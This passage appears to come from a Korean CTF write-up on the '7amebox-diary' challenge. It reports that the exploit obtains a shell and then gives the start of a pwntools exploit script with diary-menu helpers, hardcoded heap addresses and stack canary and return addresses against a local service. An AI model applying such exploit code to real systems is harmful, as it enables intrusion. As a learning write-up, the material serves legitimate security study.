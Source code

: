exploit을 수행한 결과 아래와 같이 shell을 획득할 수 있다.

![exploit success](/assets/img/posts/HS2024-1/7amebox-diary/exploit_success.png)

### Full exploit code

```python
#!/usr/bin/python3
from tools.utils import *

from pwn import *


context.log_level = 'INFO'
context.arch = 'x86_64'

HOST, PORT = '127.0.0.1 8101'.split(' ')

def list_diary():
    global p
    p.sendlineafter(b'>', b'1')
    return p.recvuntil(b'1) list')

def write_diary(title, content, key):
    global p
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'title>', title)
    p.sendlineafter(b'>', content)
    p.sendline(key)

def edit_diary(idx, title, content, key):
    global p
    p.sendlineafter(b'>', b'4')
    p.sendlineafter(b'index>>', str(idx).encode())
    p.sendlineafter(b'title>', title)
    p.sendlineafter(b'>', content)
    p.sendline(key)

heap_addrs = [
    0x59000,
    0xc4000,
    0x1c000,
    0x3a000,
    0xdd000,
    0x9b000,
    0xbb000,
    0xbf000,
    0xf1000,
    0x7c000,
]

gets_canary_addr = 0xf5fb6
gets_ret_addr = 0xf5fc2

```